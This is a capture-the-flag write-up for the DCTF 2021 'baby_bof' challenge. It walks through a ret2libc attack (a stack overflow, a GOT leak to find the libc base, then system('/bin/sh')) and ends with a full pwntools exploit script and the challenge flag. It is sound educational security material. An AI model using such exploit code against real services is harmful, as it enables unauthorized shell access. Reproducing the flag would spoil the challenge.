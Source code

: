 Preface  
-------

We got a simple binary with output ```plz don't rop me``` and after our input
```plz don't rop me```  
Also we got a Dockerfile, which showed us the used image was Ubuntu:20.04

Overview  
--------

Based on the output, we know it was a rop challenge.  
Also ```checksec baby_bof``` gave us.

```  
Arch:     amd64-64-little  
RELRO:    Partial RELRO  
Stack:    No canary found  
NX:       NX enabled  
PIE:      No PIE (0x400000)  
```

Loading the binary into *ghidra* I can calculate the offset of the return
address.

So I knew, that after writing 18 characters I could overwrite the return
address and control the code flow.

First I tried if I could do a rop only with the binary, but neither Ropper nor
RopGadget found enough gadgets.  
So I had to use libc. For this I first needed to get the address where libc
was loaded.

In order for this I leaked the address of _got.fgets_.  
If I then substract the address of fgets in libc, I could get the base address
of libc.  
After the leak I would rerun the vulnerable function to make our next input.

Then I could use _system_ and ```/bin/sh``` from libc to get a shell.

But somehow this did work on my local machine and not remote. Because I didn't
see my error, I gave up and continued with other challenges.  
Short before the end, I wanted to finish this challenge, so I gave it another
try.

I thought, that maybe my local system had a different libc.  
So I downloaded the [root](https://github.com/tianon/docker-brew-ubuntu-
core/blob/4b7cb6f04bc4054f9ab1fa42b549caa1a41b7c92/focal/ubuntu-focal-core-
cloudimg-amd64-root.tar.gz) from Github.  
From their I could extract the libc and loading them side by side showed me
the offsets were wrong.

But even with this change it didn't work.  
Because I thought it could still be some error with the offset, I tried to
print ```/bin/sh``` with puts.  
The printout was correctly and I successfully had a shell.

From their I could cat the flag and the challenge was solved.

I didn't understanding why it worked. Testing some bits showed, that their was
some call needed before the system or it woudln't work.  
I modified my script, to just include a ```ret-Gadget``` and my final exploit
code was.

```Python  
#!/usr/bin/env python3  
from pwn import *

context.arch = 'amd64'  
context.kernel = 'amd64'  
#context.log_level = "DEBUG"  
context.log_level = "INFO"

context.terminal = ['xfce4-terminal', '-x', 'sh', '-c']

vulnerable = './baby_bof'

elf = ELF(vulnerable)  
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')  
libc2 = ELF('./libc.so.6')

#p = elf.process()#  
p = remote("dctf-chall-baby-bof.westeurope.azurecontainer.io", 7481)

p.readuntil('plz don\'t rop me')

fgets_got = elf.symbols['got.fgets']  
fgets_libc = libc2.symbols['fgets']  
system_libc = libc2.symbols['system']  
sh_libc= next(libc2.search(b'/bin/sh'))  
ret = next(elf.search(asm('ret')))

rop = ROP(elf)  
rop.puts(fgets_got)  
rop.call(elf.symbols['vuln'])

p.sendline(b'\x41'*18 + bytes(rop))

p.recvuntil("i don't think this will work\n")

fgets_address = p.recvuntil("\n")[:-1]  
fgets_address = u64(fgets_address + b'\x00'*(8-len(fgets_address)))  
libc_address = (fgets_address - fgets_libc)  
system_address = system_libc + libc_address  
sh_address = sh_libc + libc_address  
elf.symbols['system'] = system_address

p.readuntil('plz don\'t rop me')

rop = ROP(elf)  
rop.system(sh_address)

p.sendline(b'\x41'*18 + p64(ret) + bytes(rop))

p.recvuntil("i don't think this will work\n")

p.interactive()  
```

The flag was located in a file called flag.txt.

```dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}```

Original writeup (https://w0y.at/writeup/2021/05/17/dctf-2021-baby-bof.html).